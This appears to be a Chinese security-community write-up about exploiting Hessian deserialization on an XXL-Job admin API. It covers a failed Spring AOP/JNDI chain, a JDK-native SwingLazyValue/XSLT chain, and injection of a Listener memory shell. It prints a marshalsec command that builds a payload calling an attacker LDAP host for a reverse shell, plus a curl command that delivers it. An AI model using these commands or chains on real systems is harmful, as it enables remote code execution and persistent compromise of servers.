# XXL-Job hessian反序列化实战利用-先知社区

> **来源**: https://xz.aliyun.com/news/18687  
> **文章ID**: 18687

---

# XXL-Job hessian反序列化实战利用

## 初见端倪

在一次资产搜集中遇到了 xxl-job 的站点，



直接上综合漏洞利用工具扫出来存在 /api 未授权接口，



但是在尝试进行命令执行和注内存马注入的时候都失败了（后面知道这是因为该站以前已经被检测出过这个漏洞了，所以一些常见的链子都被修复了）



感觉工具利用方式比较单一，选择手动打一遍。这里还是选择打了一下比较常见的 spring aop 利用链，该链的 sink 点是打得 jndi，jndimap 开启监听



接着生成反序列化 poc，

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor ldap://
ip:1389/Deserialize/Jackson/ReverseShell/ip/port > test.ser
```

然后发送反序列化 poc 到目标站点

```
curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://ip:8080/xxl-job-admin/api
```

发现目标报错了，而且监听也没收到请求。看调用栈不难发现其实已经进入了 hessian 反序列化，并且已经到达了 `AbstractBeanFactoryPointcutAdvisor#getAdvice` 方法，



简单看看 spring aop 的链子，在这个 `AbstractBeanFactoryPointcutAdvisor#getAdvice` 方法中会调用 `this.beanFactory.getBean` 方法，其实也就是 `SimpleJndiBeanFactory#getBean` 方法，最后在getBean 中触发 JNDI，



看到报错显示的是和 adviceBeanName 有关，但是很明显链子里面是设置了值的，猜测应该是目标端修复了一下。后面测试还发现目标站不出网，所以就算这里能达到 sink 点也打不了。

虽然这条链子没有利用成功，但是现在可以确定的是还是可以进入 hessian 反序列化的，那么剩下的我们只需要多换几条其他链子就行了，

## XSLT 利用

在试了很多 javachain 上面的链子和参考<https://forum.butian.net/share/2592这篇经典文章后，发现存在一条> jdk8 原生链，利用 SwingLazyValue 来触发任意类的静态方法，然后剩下的就是看选哪种静态方法利用比较好了。

第一种是通过调用 `com.sun.org.apache.bcel.internal.util.JavaWrapper` 这个类的 `_main` 静态方法来加载 bcel 字节码，简单看看这条链子，通过 CVE-2021-43297 来触发到 tostring 方法，



调用到 `PKCS9Attribute#tostring` 方法，这里又调用了 `UIDefaults#get` 方法



然后一直调用到 `SwingLazyValue.createValue` 方法，这个方法就可以调用任意静态方法了，



来到 JavaWrapper 的 `_main` 方法，在其最后调用了runMain



跟进，这个方法主要就是先加载我们的 BCEL 字节码得到恶意类，然后获得恶意类中的 `_main` 方法，最后进行反射调用。



但是看文章说这个加载 bcel 并不能够实现内存马注入，因为其只能加载jdk包下的原生类。

继续看提到的第二种静态方法的利用， `com.sun.org.apache.xalan.internal.xslt.Process` 的\_main方法去可以加载恶意的xslt文件，这里直接看\_main 方法，调用了 `stylesheet = tfactory.newTemplates(new StreamSource(xslFileName));` 来加载并编译 XSLT 文件，



所以我们可以通过写入一个恶意的 XSLT 文件来加载注入内存马，用到的静态方法是 `com.sun.org.apache.xml.internal.security.utils.JavaUtils#writeBytesToFilename`。最后整个利用思路就是先写个恶意的 XSLT 文件然后进行加载注入，

可以利用 javachain 来一步完成也可以分步手打。



这里先尝试执行了 sleep 来验证是否可行，发现成功延时了，证明了链子确实可行那么剩下的就是内存马了。

最后内存马根据优先级先选择了 tomcat filter 但是一直打不通，和nn0nkey师傅讨论了一下最后尝试 Listener 型成功注入，



## 总结

不得不说虽然总体思路比较简单，但是当时打确实还是打了很久，因为不知道目标端又加了些什么逻辑，有些本地能打通但是目标打不通，还好 hessian 反序列化可以利用的链子已经有很多了，也是给了个机会。

​

参考：<http://www.bmth666.cn/2023/02/07/0CTF-TCTF-2022-hessian-onlyJdk/index.html>

参考：<https://forum.butian.net/share/2592>
